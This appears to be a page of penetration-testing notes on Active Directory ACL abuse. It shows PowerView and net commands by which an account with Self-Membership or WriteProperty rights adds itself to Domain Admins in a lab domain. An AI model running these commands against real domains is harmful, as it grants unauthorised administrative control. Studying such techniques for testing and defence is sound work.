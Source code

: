 # Self-membership

### <mark style="color:orange;">Self-Membership</mark>

Another privilege that enables the attacker adding themselves to a group:

![](<../../../../.gitbook/assets/image (7).png>)

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

### <mark style="color:orange;">WriteProperty (Self-Membership)</mark>

One more privilege that enables the attacker adding themselves to a group:

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../../../.gitbook/assets/image (51).png>)

```
net group "domain admins" spotless /add /domain
```
